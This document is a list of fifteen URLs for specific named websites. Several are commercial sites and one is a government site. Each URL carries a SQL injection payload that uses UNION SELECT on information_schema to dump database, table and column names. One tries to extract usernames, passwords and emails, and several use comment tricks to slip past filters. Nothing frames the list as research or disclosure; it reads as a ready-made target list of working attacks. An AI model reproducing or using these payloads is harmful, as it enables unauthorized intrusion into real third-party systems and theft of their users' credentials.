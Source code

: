 1. http://www.bjp-bg.com/paper.php?id=-770%20UNION%20SELECT%201,2,3,4,group_concat(schema_name),6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33,34,35,36,37,38,39,40,41,42,43,44,45,46,47,48,49,50,51,52,53,54,55,56,57,58,59,60,61,62,63,64,65,66,67,68,69,70,71,72,73,74,75,76,77,78,79,80,81,82,83,84,85,86,87,88,89,90,91,92,93,94,95,96,97,98,99,100,101,102,103,104,105,106,107,108,109,110,111,112,113,114,115,116,117,118,119,120,121,122,123,124,125,126,127,128,129,130,131,132,133,134,135,136,137,138,139,140,141,142,143,144,145,146,147,148,149,150,151,152,153,154,155,156,157,158,159,160,161,162,163,164,165,166,167,168,169,170,171,172,173,174,175,176,177,178,179,180,181,182,183,184,185,186,187,188,189,190,191,192,193,194,195,196,197,198,199,200,201,202,203,204,205,206,207,208,209,210,211,212,213,214,215,216,217,218,219,220,221,222,223,224,225,226,227,228,229,230,231,232,233,234,235,236,237,238,239,240,241,242,243,244,245,246,247,248,249,250,251,252,253,254,255,256,257,258,259,260,261,262,263,264,265,266,267,268,269,270,271,272,273,274,275,276,277,278,279,280,281,282,283,284,285,286,287,288,289,290,291,292,293,294,295,296,297,298,299,300,301,302,303,304,305,306,307%20from%20information_schema.schemata--

2. http://www.pendragonpress.com/book.php?id=-499%27%20union%20select%201,group_concat(schema_name),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24%20from%20information_schema.schemata--+

3. http://www.myskillsforlife.com/course-book.php?ID=-41%27%20union%20select%201,2,3,4,5,6,7,8,9,group_concat(schema_name,%20%27%3Cbr%3E%27),11,12,13,14,15%20from%20information_schema.schemata--+

4. https://www.lghk.com/product.php?id=58&pid=-7%20union%20select%201,2,3,4,5,6,7,8,9,10,11,12,13,14,15,unhex(hex(group_concat(schema_name))),17%20from%20information_schema.schemata--

5. http://www.webloadmpstore.com/product.php?id=-3%20/*!12345union*/%20select%201,2,3,4,5,6,7--

6. http://www.meg.com.eg/product.php?id=43%27%20union%20select%201,2,3,group_concat(Username,0x3a3a,Password,0x3a3a,Email,%20%27%3Cbr%3E%27),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20%20from%20information_schema.columns%20where%20table_name=users--+

7. http://www.thompson-brothers.com/product.php?id=10%20/*!12345union*/%20select%201,2,3,4,5,6--

8. https://www.thecryers.com/gallery.php?id=-9%27%20union%20select%201,2,3,4,5,6,7,group_concat(column_name,%20%27%3Cbr%3E%27),9,10%20from%20information_schema.columns%20where%20table_name=%27tbl_menu%27--+

9. https://www.hele.com.tw/human.php?id=-32%27%20union%20select%201,2,group_concat(table_name,%20%27%3Cbr%3E%27),4,5%20from%20information_schema.tables%20where%20table_schema=%27mysql%27--+

10. http://www.imcconcerts.com/artist.php?id=-16%20union%20select%201,2,group_concat(column_name,%20%27%3Cbr%3E%27),4,5,6,7,8,9%20from%20information_schema.columns%20where%20table_name=%27admin%27--&month=

11. https://sindhculture.gov.pk/book.php?id=-183%27%20/*!12345union*/%20select%201,2,3,4,5,6,group_concat(column_name,%20%27%3Cbr%3E%27),database(),9%20from%20information_schema.columns%20where%20table_name=%27admins%27--+

12. https://www.conbrouder.ie/gallery.php?id=-11%27%20union%20select%201,2,3,4,5,6,group_concat(table_name),8,9,10,11,12,13,14,15,16,17%20from%20information_schema.tables%20where%20table_schema=database()--+

13. http://www.waytogocc.com/city.php?id=-22%27%20union%20select%201,group_concat(schema_name,%20%27%3Cbr%3E%27),3,4,5,6,7,8%20from%20information_schema.schemata--+

14. http://www.carrot-home.com/project.php?id=-1%20union%20select%201,2,3,group_concat(table_name,%20%27%3Cbr%3E%27),5,6,7,8,9%20from%20information_schema.tables%20where%20table_schema=database()--

15. https://mcisonline.com/institution.php?id=-6%20union%20select%201,group_concat(table_name,%20%27%3Cbr%3E%27)%20from%20information_schema.tables%20where%20table_schema=database()--
